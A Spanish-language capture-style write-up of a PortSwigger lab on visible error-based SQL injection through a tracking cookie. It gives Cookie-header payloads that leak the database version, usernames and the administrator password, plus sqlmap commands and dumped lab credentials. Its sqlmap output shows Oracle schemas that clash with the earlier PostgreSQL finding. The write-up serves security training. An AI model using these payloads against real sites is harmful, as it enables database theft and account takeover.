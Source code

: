 ```yaml
---
title: "Visible error-based SQL injection"
description: "Laboratorio de Portswigger sobre SQLI"
date: 2025-02-09 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - SQLI
tags:
  - Portswigger Labs
  - SQLI (Error Based)
  - Visible error-based SQL injection
  - PostgreSQL
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `vulnerabilidad` de `inyección SQL`. La aplicación utiliza una `cookie` de seguimiento para análisis y `ejecuta` una `consulta SQL` que incluye el valor de la cookie enviada, los resultados de la `consulta SQL` no se devuelven. La `base` de `datos` contiene una tabla diferente llamada `users`, con columnas llamadas `username` y `password`. Para resolver el `laboratorio`, hay que `encontrar` una forma de `filtrar` la `contraseña` del usuario `administrador` y luego `iniciar sesión` en su cuenta

---

## Guía de SQLI

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de SQLI` [https://justice-reaper.github.io/posts/SQLI/](https://justice-reaper.github.io/posts/SQLI/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-13/image_1.png)

Si `capturamos` la `petición` a la web con `Burpsuite` vemos un campo llamado `TrackingId`

![](/assets/img/SQLI-Lab-13/image_2.png)

Si enviamos una petición normal a la web no notaremos nada extraño, sin embargo, si añadimos una `'` al en el campo `TrackingId` nos arrojará un `error`, esto quiere decir que podemos hemos logrado `interferir` en la `consulta SQL` que se está tramitando. Esto se debe a que la consulta que se está haciendo por detrás es la siguiente

```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

![](/assets/img/SQLI-Lab-13/image_3.png)

Si en el campo cookie efectuamos la inyección, `' or 1=1-- - ` o `' and 1=1-- - ` el `error` ya `no aparece` debido a que `la query se está ejecutando correctamente`. Para obtener el `número de columnas existentes` usamos un `order by`, en este caso sabemos que hay una columna, debido a que si hacemos `order by 2` o superior nos arroja un error

```
Cookie: TrackingId=Fd4cX7VWOdC0tTy9'+order+by+1--+-+; session=XpgULc3syYJ6d1XZ2KtzCym9QtW2VDgn
```

`Descartamos` que se esté empleando `Oracle`, debido a que `no ha arrojado ningún error`, si fuera Oracle nos arrojaría un error debido a que haría falta añadir `from dual`

```
Cookie: TrackingId=Fd4cX7VWOdC0tTy9'+union+select+null--+-+; session=XpgULc3syYJ6d1XZ2KtzCym9QtW2VDgn
```

Si `listamos` la `versión` de la `base` de `datos` con `@@version` nos da un `error`, por lo tanto también podemos `descartar` las bases de datos `MySQL` y `Microsoft`. Al probar con `version()` nos `devuelve` un `200 OK` lo que quiere decir que no ha producido ningún error y por lo tanto, estamos ante `PostgreSQL`

```
Cookie: TrackingId='+union+select+version()--+-+; session=4t32wyejFSosLimiWeBWotzdpQskYvmg
```

He probado a verificar si había alguna diferencia entre usar `or` y `and` en consultas como `' or (select 'a')='b'-- - ` y no hay diferencia alguna. Independientemente del operador utilizado al comparar dos strings, da igual que no sean iguales, no nos arroja ningún error. Por lo tanto, no vamos a poder utilizar `substr()` o `length()` para obtener la longitud y posteriormente bruteforcear carácter por carácter. Si nos fijamos bien `ha cambiado el error que se mostraba anteriormente` al usar este `payload`

```
Cookie: TrackingId=bU3yTvP58kltPa83'+and+cast((select+1)+as+int)--+-+; session=sR4Q8zJsTtcc808JJ5wGl7shmW8zfT4g
```

![](/assets/img/SQLI-Lab-13/image_4.png)

Para que no se produzca el error podemos simplemente añadir 1=

```
Cookie: TrackingId=bU3yTvP58kltPa83'+and+1=cast((select+1)+as+int)--+-+; session=sR4Q8zJsTtcc808JJ5wGl7shmW8zfT4g
```

Comprobamos que se ve reflejado en la respuesta el input introducido

```
Cookie: TrackingId=bU3yTvP58kltPa83'+and+1=cast((select+'testing')+as+int)--+-+; session=sR4Q8zJsTtcc808JJ5wGl7shmW8zfT4g
```

![](/assets/img/SQLI-Lab-13/image_5.png)

Una vez hecho esto ya podemos ver el `output` que se produce al `listar` la `version` de al `base` de `datos` modificando el `payload` anterior

```
Cookie: TrackingId=bU3yTvP58kltPa83'+and+1=cast((select+version())+as+int)--+-+; session=sR4Q8zJsTtcc808JJ5wGl7shmW8zfT4g
```

![](/assets/img/SQLI-Lab-13/image_6.png)

Hemos tenido que `borrar caracteres` debido a que hay un `límite máximo de caracteres`, si nos pasamos de 60 caracteres la consulta no se llevará a cabo. Por esta misma razón no podemos listar tablas ni bases de datos, la única opción para para enumerar tablas que se me ocurre es `bruteforcear` el `nombre` de las `tablas` para la `base de datos actual` mediante un `Cluster bomb` o un `script en python` y usando este `payload`. El primer `payload` serían las `letras` de la `a-z` y el segundo sería un `diccionario` con el `nombre` de `tablas`

```
Cookie: TrackingId='+and+1=cast((select+'a'+from+users+limit+1)+as+int)--+-+; session=sR4Q8zJsTtcc808JJ5wGl7shmW8zfT4g
```

`Si la tabla existe nos responderá con este mensaje`, una vez encontrada una tabla existente podemos `bruteforcear` el `nombre` de las `columnas` con un `ataque` de `tipo Sniper`

![](/assets/img/SQLI-Lab-13/image_7.png)

Por el contrario `si la tabla no existe nos responderá con este otro mensaje`, de esta forma, si nos fijamos en el `Content-Length` podremos saber si existe o no

![](/assets/img/SQLI-Lab-13/image_8.png)

`Obtenemos` el `nombre` de `usuario`

```
Cookie: TrackingId='+and+1=cast((select+username+from+users+limit+1)+as+int)--+-+; session=sR4Q8zJsTtcc808JJ5wGl7shmW8zfT4g
```

![](/assets/img/SQLI-Lab-13/image_9.png)

`Obtenemos` la `contraseña` del usuario `administrador`

```
Cookie: TrackingId='and+1=cast((select+password+from+users+limit+1)+as+int)--+-+; session=sR4Q8zJsTtcc808JJ5wGl7shmW8zfT4g
```

![](/assets/img/SQLI-Lab-13/image_10.png)

También podemos `obtener` las `credenciales` usando `sqlmap`, para ello, lo primero es `listar` a los `propietarios`

```
# sqlmap -u https://0ad500c103d53c4780d90807007c0083.web-security-academy.net --risk=3 --level=5 --random-agent --dbs --batch -D peter -T uers --columns --cookie="TrackingId=OUo1wyAvhU0njrur*; session=a7QOPiB4alg9AhfrYQpRyRtI1sJ0eDcW" --threads 2
available databases [7]:
[*] "SYSTEM"
[*] APEX_040000
[*] CTXSYS
[*] MDSYS
[*] PETER
[*] SYS
[*] XDB
```

`Listamos` las `tablas` del propietario `PETER`

```
# sqlmap -u https://0ad500c103d53c4780d90807007c0083.web-security-academy.net --risk=3 --level=5 --random-agent --batch -D peter --tables --cookie="TrackingId=OUo1wyAvhU0njrur*; session=a7QOPiB4alg9AhfrYQpRyRtI1sJ0eDcW" --threads 2
Database: PETER
[2 tables]
+----------+
| TRACKING |
| USERS    |
+----------+
```

`Listamos` las `columnas` de la tabla `USERS`

```
# sqlmap -u https://0ad500c103d53c4780d90807007c0083.web-security-academy.net --risk=3 --level=5 --random-agent --batch -D peter -T users --columns --cookie="TrackingId=OUo1wyAvhU0njrur*; session=a7QOPiB4alg9AhfrYQpRyRtI1sJ0eDcW" --threads 2
Database: PETER
Table: USERS
[3 columns]
+----------+----------+
| Column   | Type     |
+----------+----------+
| EMAIL    | VARCHAR2 |
| PASSWORD | VARCHAR2 |
| USERNAME | VARCHAR2 |
+----------+----------+
```

`Listamos` el `contenido` de las columnas `USERNAME` y `PASSWORD` 

```
# sqlmap -u https://0ad500c103d53c4780d90807007c0083.web-security-academy.net --risk=3 --level=5 --random-agent --batch -D peter -T users -C username,password --dump --cookie="TrackingId=OUo1wyAvhU0njrur*; session=a7QOPiB4alg9AhfrYQpRyRtI1sJ0eDcW" --threads 2     
Database: PETER
Table: USERS
[3 entries]
+---------------+----------------------+
| USERNAME      | PASSWORD             |
+---------------+----------------------+
| administrator | 865232i99b9ovbdp8kvn |
| wiener        | 6zkofcbzkuzr8zwssnb3 |
| carlos        | 6s50h6zjox61npql60g0 |
+---------------+----------------------+
```

Nos `logueamos` con las credenciales `administrador:865232i99b9ovbdp8kvn`

![](/assets/img/SQLI-Lab-13/image_11.png)

![](/assets/img/SQLI-Lab-13/image_12.png)
